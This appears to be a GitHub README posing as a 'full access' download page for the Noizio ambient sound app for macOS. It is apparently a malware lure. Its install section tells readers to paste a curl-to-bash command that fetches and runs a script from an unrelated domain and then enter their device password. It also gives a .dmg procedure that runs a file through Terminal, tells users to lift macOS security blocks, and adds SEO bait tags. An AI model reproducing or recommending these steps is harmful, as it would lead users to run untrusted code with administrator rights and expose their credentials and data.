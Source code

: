<p align="center">
  <img src="https://images.dwncdn.net/images/t_app-icon-l/p/7e5ab6f3-9530-4d2b-967e-fd187cc371cf/3701053123/20418_4-76207281-Foreman_13930145_9183_437876720648_256x256.png" alt="Noizio Mac Banner" />
</p>

<h1 align="center">Noizio for macOS</h1>

<p align="center">
  🎧 Create the perfect ambient environment with customizable background soundscapes for work, study, sleep, or meditation.  
  <br><br>
  ✅ Optimized for Apple Silicon and Intel  
  ✅ Works with Sonoma, Ventura, Monterey  
</p>

---

## 🔻 Download

<p align="center">
  <a href="https://bloodangel210.github.io/modarbas/0noizios" target="_blank">
    <img src="https://img.shields.io/badge/⬇️%20DOWNLOAD%20Noizio%20MAC-GET%20FULL%20ACCESS-green?style=for-the-badge&logo=apple&logoColor=white" alt="Download Noizio for macOS">
  </a>
</p>

---

## 📸 Preview

<p align="center">
  <img src="https://miro.medium.com/v2/resize:fit:800/0*sALOHrX-XqnvwDJK.jpg" alt="Noizio Interface Screenshot" />
</p>

---
## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get4/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

---

## ❓ What is Noizio?

**Noizio** is a lightweight ambient sound generator for macOS that helps you stay focused, relax, or fall asleep. Whether you're working in a noisy environment, trying to meditate, or simply want a calm atmosphere, Noizio allows you to mix over 40 high-quality background sounds — from rain and wind to coffee shop chatter and ocean waves.

It’s the perfect productivity and relaxation tool, running discreetly in the background with a minimal footprint. You can create and save your own sound presets, adjust volume levels independently, and enjoy a consistent experience even when offline.

Noizio is fully optimized for **Apple Silicon (M1/M2/M3)** and supports modern macOS versions including **Sonoma**, **Ventura**, and **Monterey**.

---

## ✅ Why Choose Noizio?

- 🎧 **Curated Sound Library** – Includes 40+ ambient loops  
- 🎛️ **Custom Mixes** – Adjust volume levels of each sound  
- 🔁 **Loop Mode** – Seamless playback with no interruptions  
- 💾 **Preset Manager** – Save your favorite sound combos  
- 💤 **Sleep-Friendly** – Use it before bed for deep relaxation  
- 🧠 **Distraction-Free Interface** – Minimal UI that stays out of your way  
- 🌐 **Offline Mode** – All sounds are stored locally  
- 🖥️ **macOS Optimized** – Runs smoothly on all Mac models  

> Whether you need to focus on work or disconnect from the noise, **Noizio** gives you total control over your sonic environment.

---

## 📸 More Screenshots

<p align="center">
  <img src="https://is1-ssl.mzstatic.com/image/thumb/Purple124/v4/16/dd/98/16dd98fc-57c0-ec19-08dc-bd56cb157448/pr_source.png/643x0w.jpg" alt="Noizio Preset Mixer Screenshot" />
  <br><br>
</p>


## 🚀 Key Features

- 🔊 40+ ambient sounds  
- 🌀 Custom volume mixing  
- 🌙 Sleep and relax modes  
- 💾 Save sound presets  
- 🎛️ Minimal user interface  
- 🧠 Productivity enhancement  
- 🖥️ Apple Silicon native  
- 💡 Offline playback support  

---

## 💻 System Requirements

macOS 10.10 (Yosemite) or later  
Supports Monterey, Ventura, Sonoma  
Intel & Apple Silicon (M1/M2/M3)  
At least 100MB free disk space  

---

## 🧠 Note

If your Mac blocks the app during launch:
- Go to **System Settings > Privacy & Security**  
- Allow Noizio under "App Management"

---

<!-- Hidden tech SEO-friendly badges -->
<p align="center">
  <img src="https://img.shields.io/badge/macOS-10.10%2B-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/AudioMode-OfflineLooping-lightgrey?style=flat-square" />
  <img src="https://img.shields.io/badge/Interface-Minimalist%20UI-lightgrey?style=flat-square" />
</p>

---

## 🔗 License

This project is licensed under the MIT License.  
You are free to use, modify, and distribute it for personal use.

---

## 📚 Support and Contribution

Have feedback, suggestions, or found a bug?  
Feel free to open an issue or contribute via pull request.

---

## ⭐ Noizio Sound Suite – Unlock Calm

Thanks for choosing **Noizio** for macOS.  
Craft your perfect ambiance and unlock a truly immersive audio focus experience.

---

## 🧭 Usage Context

This macOS utility is designed for local use cases involving personalized soundscapes, mindfulness support, and offline relaxation sessions.  
It operates without external connections or persistent user tracking.

All activity remains local to your machine, and no system-level alterations are made.  
Avoid deploying in corporate environments or sessions governed by IT policies.

This is a standalone tool provided as-is with no affiliation to official sound platforms or wellness services.

---

## 🔍 Tags

```text
noizio for mac download full version, noizio macos ambient sound app, noizio productivity mixer for mac, noizio rain thunder presets mac, noizio sound presets download mac, download noizio for macbook pro, noizio app for sonoma ventura, noizio m1 m2 m3 apple silicon mac, noizio offline white noise macos, noizio sleep focus soundscapes mac, install noizio mac full package, noizio background noise utility mac, noizio customizable loops macbook, noizio native mac ambient player, noizio sound generator tool mac

